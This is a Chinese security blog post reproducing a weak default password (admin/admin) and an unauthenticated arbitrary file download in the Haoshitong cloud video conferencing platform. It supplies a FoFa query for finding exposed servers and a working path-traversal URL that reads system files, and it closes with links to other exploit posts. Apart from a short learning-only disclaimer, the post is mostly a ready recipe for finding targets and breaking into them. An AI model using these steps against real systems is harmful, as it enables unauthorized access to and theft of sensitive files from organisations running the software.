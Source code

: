 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fMNE1PF5n81O1BpoDRlYkA)

  
![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)  

前言  

  

**申明****：本次测试只作为学习用处，请勿未授权进行渗透测试，****切勿用于其它用途！**

  

![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)

Part.1 漏洞背景  

  

好视通云会议是一款高效、便捷、低成本的网络视频会议产品，通过电脑或手机登录好视通云平台，便可快速地与全球各地团队进行实时音视频沟通，并可同步分享各类数据文档。

  

![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)

Part.2 漏洞描述  

  

好视通视频会议平台存在弱口令及前台任意文件下载漏洞。

可获取任意敏感文件信息。  

  

![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)

Part.3 漏洞影响范围  

  

**Copyright © 2013-2019**  

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbLMBDojxubhjEjZeyU4akU8Ss7s1O3sNiagn2dvCCExHaoNxBY39twke0MvEkoKCmApNn66ddYtrg/640?wx_fmt=png)

**Copyright ©  2013-2018**

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbLMBDojxubhjEjZeyU4akUlahP0iaMKy9icgeSicE5zmyDrnUSp6IzpGiaImYtJ0v3sLCMMOMpbKw7wQ/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)

Part.4 FoFa 语法  

  

```
"深圳银澎云计算有限公司"
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbLMBDojxubhjEjZeyU4akUqdBwic2AicTV51UBviaC7zqkmRQSPD9ZiafVrZ5s6Knss8MibSStgTo5UnQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)

Part.5 漏洞复现  

  

该系统存在一个默认的管理员口令  

```
admin / admin
```

**后台界面：**  

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbLMBDojxubhjEjZeyU4akU4obCo5hbrwlicQicbib6qzN5GjPlf8Wosp7kgpCHD48Urz4rYPfT9dEyA/640?wx_fmt=png)

**前台任意文件下载****  
漏洞 url:**  

```
/register/toDownload.do?fileName=敏感文件路径
```

**漏洞复现：**

```
https://xxxxxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbLMBDojxubhjEjZeyU4akU2odTjG7icgruJeSP536B37jictSMy8GsQQiaqc9AlVOvNdaliaURQJibSrQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGbLMBDojxubhjEjZeyU4akUhBt0kJ0e4u8XTL3dBjmT3o4FPF2xNkibdBp6czibicXxTsicXaFKhGVoIA/640?wx_fmt=png)  

**复现成功！**

  

**如果对你有帮助的话  
那就长按二维码，关注我们吧！**  

![](https://mmbiz.qpic.cn/mmbiz_png/Qx4WrVJtMVKBxb9neP6JKNK0OicjoME4RvV4HnTL7ky0RhCNB0jrJ66pBDHlSpSBIeBOqCrOTaWZ2GNWv466WNg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/EWF7rQrfibGbLMBDojxubhjEjZeyU4akUy829mO1s5xdZrknLklZ0CUEk4AXFia2kM6X9R8kiaxia4z3NGpibZvD0ibA/640?wx_fmt=jpeg)  

  
![](https://mmbiz.qpic.cn/mmbiz_png/wKOZZiacmHTc9LIKRXddrzz6MosLdiaH4EQNQgzsrSXHObdAia8yeIlLz6MbK9FxNDr44G7FNb2DBufqkjpwiczAibA/640?wx_fmt=png)

**![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif)**  [实战 | 记一次利用 mssql 上线](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247484628&idx=1&sn=2345aec9a4550a194dc5a28b0c5cd496&chksm=c07fbf20f708363614e51e5525c1aad9b4c8f5a50b391b0c83f11d1073a26d7bb8f4dc3a9fc8&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif)  [漏洞复现 | 某系统通用（0day）](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247484741&idx=1&sn=62989d6b4d1540a8ec829f665e42e033&chksm=c07fbeb1f70837a7577a86d3687a8c8fa177eb5115e14b7fe0727b80021baaad6378b3a62c76&scene=21#wechat_redirect)  

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif)   [漏洞复现 | （通用 0day）某实践教学平台存在通用 SQLi 漏洞](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247484824&idx=1&sn=14e2ac20d29f2d56654405100ae5c604&chksm=c07fbe6cf708377af8063a01ff37b8f66c4c9906d55c57b2e9e35462ff856969acb5c08b9023&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif) [漏洞复现 | Microsoft Windows10 本地提权漏权 CVE-­2021­-1732](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247484765&idx=1&sn=c454dc78e4340bcaae2f6cc1f7d944fa&chksm=c07fbea9f70837bf68bf4b37358bdbf9affb87e5fb077e55db2136da53303b697b96ead5ce10&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fK0c7kH8Aa77gpMcYib3IVwvicSKgwrRupZFeUBUExiaYwOvagt09602icg/640?wx_fmt=gif) [漏洞复现 | （通用 0day）金和 C6 协同 OA 管理平台后台存在水平越权漏洞](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247484809&idx=1&sn=833a086a0d4a75e4bedbc4e2f7bcf19d&chksm=c07fbe7df708376befb44b4398a5c576d3c59f85304bdcf4c0d64764ecad4c50d518d926e846&scene=21#wechat_redirect)

右下角求赞求好看，喵~